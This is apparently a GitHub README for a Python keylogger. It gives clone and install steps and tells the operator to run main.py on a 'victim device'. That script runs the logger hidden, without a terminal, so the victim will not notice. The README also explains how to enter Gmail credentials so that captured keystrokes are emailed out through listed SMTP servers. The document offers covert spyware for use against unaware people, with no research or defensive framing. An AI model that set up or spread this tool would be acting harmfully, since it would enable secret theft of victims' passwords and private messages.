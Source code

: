 # Keylogger

## Install 

    git clone https://github.com/OldKokoroz/Keylogger.git
    pip install pynput
    

## Setup

To try on your device run Keylogger.py 

to run on your victim device run main.py it will install requirements and 
automatically run keylogger.pyw (without a terminal) so victim won't realize 


## Getting log file 

| Server Name |  SMTP Server 	        | SMTP Port  |
| ----------- |  ---------------------  | ---------  |
| GMAIL 	  |  smtp.gmail.com 	    |  587       | 
| OUTLOOK 	  |  smtp-mail.outlook.com  |  587       | 
| YAHOO 	  |  smtp.mail.yahoo.com 	|  587       | 


You have to :

- open a new gmail account

         mail_send(your-email@gmail.com, your-passwd, log_msg)  ---- Do not touch log_msg

- enter your address instead of first ""

- enter your password instead of second ""

- It is set to send mails to the mail you give (that means you send logs to yourself with your account)
